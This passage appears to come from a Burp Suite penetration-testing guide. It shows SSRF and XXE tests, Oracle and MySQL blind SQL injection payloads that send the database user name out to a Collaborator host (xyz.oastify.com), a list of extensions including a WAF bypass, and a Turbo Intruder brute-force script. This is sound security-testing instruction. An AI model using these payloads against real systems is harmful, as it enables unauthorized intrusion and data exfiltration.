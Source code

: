 **SSRF/XXE Testing with Collaborator**

```
# Test for SSRF
Repeater → Request → URL parameter
Original: file=reports/doc.pdf
Modified: file=http://xyz.oastify.com/test.pdf

# Test for XXE
Repeater → Request → XML content
<!DOCTYPE foo [
<!ENTITY xxe SYSTEM "http://xyz.oastify.com/test">
]>
<root>&xxe;</root>
```

**Blind SQLi with Collaborator**

```
# Oracle SQL injection
Repeater → Request → URL parameter
Original: id=123
Modified: id=123 UNION SELECT UTL_HTTP.REQUEST('http://xyz.oastify.com/'||(SELECT user FROM dual)) FROM dual

# MySQL SQL injection
Repeater → Request → URL parameter
Original: id=123
Modified: id=123 AND LOAD_FILE(CONCAT('\\\\',USER(),'.xyz.oastify.com\\abc'))
```

### Extensions and BApp Store

Burp Suite's functionality can be extended with third-party extensions.

#### Essential Extensions

```
# Installation
Extender → BApp Store → Find extension → Install

# Commonly used extensions:
- Active Scan++
- Autorize
- Bypass WAF
- JWT Toolkit
- Param Miner
- Turbo Intruder
- Upload Scanner
```

**Turbo Intruder Usage**

```python
# Example Turbo Intruder script (Python)
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,
                          concurrentConnections=5,
                          requestsPerConnection=100,
                          pipeline=True
                          )
    
    for word in open('/path/to/payloads.txt'):
        engine.queue(target.req, word.strip())
        
def handleResponse(req, interesting):
    if '200 OK' in req.response:
        table.add(req)
```